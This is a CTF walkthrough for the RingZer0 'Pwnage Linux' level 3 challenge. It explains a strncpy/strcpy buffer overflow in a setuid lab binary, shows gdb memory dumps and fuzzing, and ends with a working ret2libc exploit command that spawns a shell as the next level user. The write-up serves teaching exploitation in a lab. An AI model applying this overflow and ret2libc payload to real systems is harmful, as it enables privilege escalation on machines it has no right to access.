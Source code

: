 ```yaml
---
title: "R0 | Pwnage Linux - Level3"
layout: post
date: 2019-08-23
tag:
- Pwnage
- x86 
- Linux
- Ret2libc
- walktrhough
- CTF 
category: blog
author: Srbx7
description: R0 | Pwnage Linux - Level3
---
```



`# file level3`

```
level3: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.26, BuildID[sha1]=2336e9f02b6ccbbcccd445196c761004ba06c764, with debug_info, not stripped
```

> Has a setuid

> Is an ELF 32-bit LSB exec

> Is compile for Intel x86 processors


`# checksec level3`

```
[*] '/root/ringzer0team/pwnageLinux/level3/level3'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

`# cat /levels/level3.c`

```c
// Created by Hidden (hidden@undernet.org)

#include <stdio.h>
#include <stdlib.h>
#include <string.h>


char* concat(char *buf, char *s1, char *s2)
{
	// Copy s1 to buf
	strcpy(buf, s1);
	// Append s2 to s1 into buf
	strcat(buf, s2);
	return buf;
}


int main(int argc, char **argv)
{
	char buf[256];
	char buf1[128];
	char buf2[128];

	if (argc != 3)
		return 0;

	// Copy argv[1] to buf1 and argv[2] to buf2
	strncpy(buf1, argv[1], sizeof(buf1));
	strncpy(buf2, argv[2], sizeof(buf2));

	concat(buf, buf2, buf1);
	printf("String result: %s\n", buf);
	return 0;
}
```

> Well okay, if it's not already perceived, a good exercise would be for you to spot any anomaly, a use that differs from one point to another in this code...

> Need a hint? Okay, what differs from `strcpy()` and `strncpy()` ?

Problem w/ `strncpy( char *dest, const char *src, size_t n )`: If there is no null character among the first n character of src, the string placed in dest will not be null-terminated. So `strncpy()` does not guarantee that the destination string will be NULL terminated. Hence, its buffer memory can't be directly overflow.

Problem w/ `strcpy( char *dest, const char *src )`: The `strcpy()` function does not specify the size of the destination array, so buffer overrun is often a risk (as `strcat and strcmp`).

Fine! By fulling the `buf2` buffer w/o null byte, it's possible to overflow the `buf`. In other words, since `buf1` is right next (below) `buf2` on the stack and `strcpy` function stop copying when it gets a null char, `buf2` will looks something like `buf2` + `buf1`.

```
|      128      | arg2 -> buf2 -> s1
|      128      | arg1 -> buf1 -> s2
|      256      | buf 
|      ...      | 
| return_adress |
```

```bash
(gdb) r A `python -c 'print "\x42" * 127'`
(...)
Breakpoint 2, main (argc=3, argv=0xffffdc94) at level3.c:31
31		concat(buf, buf2, buf1);
(gdb) x/100wx $eax-100
0xffffd98c:	0x00000000	0xf7ffd000	0x08048260	0xf7ffd000
0xffffd99c:	0xf7ffd53c	0xffffd9b8	0xf7e219f8	0x00000000
0xffffd9ac:	0xffffdaa4	0xf7fe87eb	0x00000000	0xf7fcc000
0xffffd9bc:	0xf7fcc000	0xffffdbf8	0xf7feeff0	0xffffdc24
0xffffd9cc:	0xf7ea357c	0xf7fcc000	0xf7fcc000	0x00000000
0xffffd9dc:	0x0804854a	0xffffd9f0	0xffffddd0	0x00000080
0xffffd9ec:	0xf7fe2f60	0x42424242	0x42424242	0x42424242
0xffffd9fc:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda0c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda1c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda2c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda3c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda4c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda5c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda6c:	0x00424242	0x00000041	0x00000000	0x00000000 <---------- * 128th byte is null
```

```bash
(gdb) r A `python -c 'print "\x42" * 128'`
...
Breakpoint 2, main (argc=3, argv=0xffffdc94) at level3.c:31
31		concat(buf, buf2, buf1);
(gdb) x/100wx $eax-100
0xffffd98c:	0x00000000	0xf7ffd000	0x08048260	0xf7ffd000
0xffffd99c:	0xf7ffd53c	0xffffd9b8	0xf7e219f8	0x00000000
0xffffd9ac:	0xffffdaa4	0xf7fe87eb	0x00000000	0xf7fcc000
0xffffd9bc:	0xf7fcc000	0xffffdbf8	0xf7feeff0	0xffffdc24
0xffffd9cc:	0xf7ea2a15	0xf7fcc000	0xf7fcc000	0x00000000
0xffffd9dc:	0x0804854a	0xffffd9f0	0xffffddcd	0x00000080
0xffffd9ec:	0xf7fe2f60	0x42424242	0x42424242	0x42424242
0xffffd9fc:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda0c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda1c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda2c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda3c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda4c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda5c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffda6c:	0x42424242	0x00000041	0x00000000	0x00000000 <---------- * 128th byte is \x42
```

Since `buf2` has to be exactly 128-byte w/o null char (e.g.: bigger values are just going to be ignored by `strncpy` function), let's play w/ `buf1` and fuzz values to crash the program.

```bash
level3@lxc-pwn-x86:/levels$ ./level3 `python -c 'print "\x41" * 69'` `python -c 'print "\x42" * 128'`
String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

level3@lxc-pwn-x86:/levels$ ./level3 `python -c 'print "\x41" * 70'` `python -c 'print "\x42" * 128'`
String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

Several methods can make it possible to execute arbitrary code, in particular by using a global variable in which there is a shellcode and the address is known beforehand. Although, I prefered to play a bit more with the basic gdb commands on the server to get more familiar w/ the basics and `ret2libc`.

```bash
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e56940 <system>
(gdb) find 0xf7e56940, +99999999999, "/bin/sh"
0xf7f7502b
warning: Unable to access 16000 bytes of target memory at 0xf7fcedb3, halting search.
1 pattern found.
```

Exploit this binary! ;)

```bash
level3@lxc-pwn-x86:/levels$ ./level3 `python -c 'print "\x41" * 64 + "\x40\x69\xe5\xf7"+ "CCCC"  + "\x2b\x50\xf7\xf7"'` `python -c 'print "\x42" * 128'`
String result: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@i��CCCC+P��AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@i��CCCC+P��
level4@lxc-pwn-x86:/levels$ wc -l /home/level4/.pass
1 /home/level4/.pass
level4@lxc-pwn-x86:/levels$ 
```
